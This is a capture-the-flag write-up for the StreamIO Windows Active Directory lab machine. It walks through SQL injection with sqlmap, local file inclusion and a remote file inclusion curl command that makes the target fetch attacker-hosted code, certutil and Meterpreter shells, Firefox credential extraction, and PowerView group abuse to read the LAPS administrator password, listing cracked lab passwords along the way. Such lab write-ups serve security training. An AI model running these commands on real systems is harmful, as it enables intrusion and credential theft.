



# StreamIO Writeup


StreamIO is a Windows Active Directory machine that looks medium on paper but feels much harder because it requires a lot of careful enumeration and a privilege escalation trick that is easy to miss. The path goes from web reconnaissance and SQL injection to LFI-based source disclosure, RFI to gain a shell, lateral movement through SQL and browser-stored credentials, and finally AD abuse to reach Administrator.

## Summary

Nmap revealed two virtual hosts through the SSL certificate: `streamIO.htb` and `watch.streamIO.htb`. After extensive directory brute-forcing, I found an admin directory, a `master.php` file that only works through includes, and a vulnerable search page on the watch subdomain.

Both the login form on `https://streamIO.htb` and the search bar on `https://watch.streamIO.htb/search.php` were vulnerable to Microsoft SQL Server stacked-query injection. Because the injection was time-based, dumping the `users` table took hours, but it produced many password hashes that could be cracked with CrackStation.

Once logged in, I accessed the admin panel and fuzzed the `debug` parameter. That led to local file inclusion, source disclosure of `index.php` and `master.php`, and the discovery of a hardcoded `db_admin` password. Using that, I reached SQL Server, dumped more data, found a crackable password hash for `nikk37`, and authenticated as that user.

From there, Firefox credential storage gave me another credential set for `JDgodd`. BloodHound showed that `JDgodd` could manipulate the `CORE_STAFF` group, which had permission to read the LAPS password. By abusing group ownership and membership, I read the administrator password and finished the machine with Evil-WinRM.

## Enumeration

The first Nmap scan showed a classic domain controller setup with DNS, Kerberos, LDAP, SMB, WinRM, and MSSQL services. The SSL certificate exposed both `streamIO.htb` and `watch.streamIO.htb`, which were added to `/etc/hosts` for further testing.

```bash
nmap -p- --min-rate=1000 -T4 10.10.11.158
nmap -p53,80,88,135,139,389,443,445,464,593,636,3268,3269,5985,9389,49667,49673,49674,49702,50127 -sC -sV 10.10.11.158
echo "10.10.11.158 streamIO.htb
10.10.11.158 watch.streamIO.htb" | sudo tee -a /etc/hosts
```


Subdomain brute-forcing only rediscovered `watch.streamIO.htb`, but directory brute-forcing was more useful. The main site had `/admin`, `/login.php`, `/register.php`, and related static resources, while the watch site exposed `/search.php` and `/blocked.php`.


search.php page :  



## SQL Injection

The login form on `streamIO.htb` accepted stacked-query payloads, and sqlmap confirmed Microsoft SQL Server time-based injection. The search parameter on `watch.streamIO.htb/search.php` was also injectable.




The injection was slow, but it let me enumerate databases and tables. `STREAMIO` contained `movies` and `users`, and the `users` table held many password hashes.

```bash
sqlmap -u https://streamio.htb/login.php --data username=a\&password=a -p username --random-agent
sqlmap -u https://streamio.htb/login.php --data username=a\&password=a -p username --random-agent --tables
sqlmap -u https://streamio.htb/login.php --data username=a\&password=a -p username --random-agent -D STREAMIO -T users --columns
```

Dumping the `users` table with `--force-pivoting` eventually produced 29 entries. CrackStation recovered several passwords, and the one that worked for login was:

- `yoshihide:66boysandgirls..`

That account gave access to the main site.

## Admin Panel




We are redirected to the home page, but since we know the address of the admin page, we can go directly to `https://streamio.htb/admin/index.php`. Clicking the navigation links changes the query parameter in the URL, giving us `?staff=`, `?movie=`, and `?user=` for the three main sections.

```bash
ffuf -ic -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt \
-u https://streamio.htb/admin/index.php\?FUZZ\= \
-b "PHPSESSID=95aolvr8otpu56btshfqv66f2a" \
-fs 1678
```

That fuzzing revealed four useful parameters:

- `user`
- `staff`
- `movie`
- `debug`

When we visit `https://streamio.htb/admin/index.php?debug=`, the page says “this option is for developers only.” Fuzzing that parameter showed it was vulnerable to local file inclusion.

```bash
ffuf -ic -w /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-windows.txt \
-u https://streamio.htb/admin/index.php\?debug\=FUZZ \
-b "PHPSESSID=95aolvr8otpu56btshfqv66f2a" \
-fs 1712
```

That produced readable system files such as:

- `C:/WINDOWS/System32/drivers/etc/hosts`
- `C:/Windows/win.ini`
- `C:/Windows/System32/inetsrv/config/schema/ASPNET_schema.xml`

So we had an LFI in a PHP parameter. Using the PHP filter wrapper, we could read source files such as `master.php` and `index.php`.

```bash
https://streamio.htb/admin/?debug=php://filter/convert.base64-encode/resource=master.php
https://streamio.htb/admin/?debug=php://filter/convert.base64-encode/resource=index.php
```

The `master.php` source showed that it executes the contents of a file passed through the POST parameter `include` with `eval()`:

```php
if(isset($_POST['include']))
{
    if($_POST['include'] !== "index.php" ) 
        eval(file_get_contents($_POST['include']));
    else
        echo(" ---- ERROR ---- ");
}
```

The `index.php` source also gave us the SQL credential:

- `db_admin:B1@hx31234567890`

Since `index.php` defines `included` before loading the subpages, we can request `master.php` through the `debug` parameter and supply a remote file path in `include`. That lets us execute code from our own web server.

## Foothold

I started a web server and created a small PHP payload that called `system()` to verify code execution. Then I posted it to the application through the `include` parameter while requesting `master.php` through `debug`.

```bash
python3 -m http.server 8000
curl --insecure -b "PHPSESSID=95aolvr8otpu56btshfqv66f2a" \
-X POST \
--data "include=http://10.10.14.98:8000/exploit" \
"https://streamio.htb/admin/index.php?debug=master.php"
```

That returned command output, which confirmed remote code execution. I then switched to a Meterpreter-based shell for better interaction, though the first shell was unstable.

To make the session more reliable, I downloaded a Windows executable with `certutil`, then ran it to get a second Meterpreter session. Persistence attempts failed at first because privileges were still limited, so I moved on to enumeration.

## WinPEAS and SQL

I ran WinPEAS and found that SQL Server was listening on port `1433`. The same report also surfaced other domain users, including:

- `JDgodd`
- `Martin`
- `nikk37`

I forwarded the local SQL port through Meterpreter and connected with the earlier `db_admin` credential.

```bash
portfwd add -l 1433 -p 1433 -r localhost
python3 examples/mssqlclient.py 'db_admin:B1@hx31234567890'@127.0.0.1 -port 1433
```

That confirmed two databases:

- `STREAMIO`
- `streamio_backup`

The `streamio_backup` database contained a `users` table with `nikk37` and a crackable password hash:

- `nikk37:389d14cb8e4e9b94b137deb1caf0612a`

Cracking that hash gave:

- `nikk37:get_dem_girls2@yahoo.com`

That password worked with Evil-WinRM.

## Lateral Movement

With `nikk37`, I logged in and ran WinPEAS again. This time it found a Firefox profile database:

- `C:\Users\nikk37\AppData\Roaming\Mozilla\Firefox\Profiles\br53rxeg.default-release\key4.db`
- `C:\Users\nikk37\AppData\Roaming\Mozilla\Firefox\Profiles\br53rxeg.default-release\logins.json`

Using `firepwd`, I extracted several stored credentials and discovered a new vhost:

- `https://slack.streamio.htb`

The recovered credentials included:

- `admin:JDg0dd1s@d0p3cr3@t0r`
- `nikk37:n1kk1sd0p3t00:)`
- `yoshihide:paddpadd@12`
- `JDgodd:password@12`

I added the new host and then verified that `JDgodd` was a valid domain credential with CrackMapExec.

```bash
crackmapexec smb streamio.htb -u users.txt -p passwords.txt
```

`JDgodd` was valid, but that account could not be used directly with Evil-WinRM.

## BloodHound Path

To understand the escalation path, I collected AD data with SharpHound and loaded it into BloodHound. The key result was that `JDgodd` had `WriteOwner` on the `CORE_STAFF` group, and that group could read the LAPS password for the domain controller.

The attack path was:

1. Make `JDgodd` the owner of `CORE_STAFF`.
2. Use that ownership to grant full rights.
3. Add `JDgodd` to `CORE_STAFF`.
4. Query the LAPS password as `JDgodd`.
5. Log in as Administrator with the recovered password.

Using PowerView from the `nikk37` shell, I created a credential object and performed the group abuse:

```powershell
[string]$userName = 'STREAMIO\JDgodd'
[string]$userPassword = 'JDg0dd1s@d0p3cr3@t0r'
[securestring]$secStringPassword = ConvertTo-SecureString $userPassword -AsPlainText -Force
[pscredential]$credObject = New-Object System.Management.Automation.PSCredential ($userName, $secStringPassword)

Add-DomainObjectAcl -TargetIdentity "Core Staff" -PrincipalIdentity $userName -Rights All -Credential $credObject
Add-DomainGroupMember -Identity "Core Staff" -Members "STREAMIO\JDgodd" -Credential $credObject
Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd, ms-Mcs-AdmPwdExpirationTime -Credential $credObject
```

That exposed the local Administrator password:

- `c5LUR48;CYA8Y1`

## Final Access

With the LAPS password, I authenticated as Administrator using Evil-WinRM.

```bash
evil-winrm -u Administrator -p "c5LUR48;CYA8Y1" -i streamio.htb
```

The root flag was not on the usual Administrator desktop path. It was on `C:\Users\Martin\Desktop\root.txt`, and that completed the machine.

## Attack Path

- Log in as `yoshihide`.
- Discover the admin panel.
- Abuse `debug` for LFI.
- Read `index.php` and `master.php`.
- Use `master.php` to achieve code execution.
- Enumerate the host and connect to SQL Server.
- Dump the backup database and crack `nikk37`.
- Recover Firefox-stored credentials from `nikk37`.
- Validate `JDgodd`.
- Use BloodHound to identify `WriteOwner` on `CORE_STAFF`.
- Abuse group ownership to read the LAPS password.
- Log in as Administrator and read the root flag from Martin’s desktop.
